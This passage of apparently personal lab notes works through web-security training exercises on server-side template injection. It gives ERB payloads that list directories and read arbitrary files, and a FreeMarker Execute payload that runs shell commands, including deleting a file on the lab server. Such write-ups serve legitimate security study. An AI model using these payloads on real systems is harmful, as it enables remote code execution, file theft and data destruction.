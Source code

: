 Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

For example, in ERB, the documentation reveals that you can list all directories and then read arbitrary files as follows:
```bash
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

### PRACTITIONER Lab: Server-side template injection using documentation
We first log in as a content manager. We now can edit the template on the blog post page.
We click `Edit template`
And at the bottom of the template we see:
```bash
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>
```
So we try to change it to:
```bash
<p>Hurry! Only ${product.any} left of ${product.name} at ${product.price}.</p>
```
And we get an error in response which ends with the following:
```bash
	at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23) 
```
So we see that FreeMarker TE is used so we go to hacktricks:
```bash
https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection
```
And we search for FreeMarker and we copy the first payload and paste it into the template:
```bash
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("pwd")}
```
In the output we see:
```
/home/carlos 
```
So we can now remove `morale.txt`
```bash
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}
```

### PRACTITIONER Lab: Server-side template injection in an unknown language with a documented exploit
First we search for a place where user input is reflected.
When we click on product `View details` the browser makes the req:
```bash
https://0aa70089031a489a802c21eb003400c5.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
```
And the `Unfortunately this product is out of stock` is reflected on the page
So we now send the request to intruder (see serverSideTemplateInjectionShort.md)
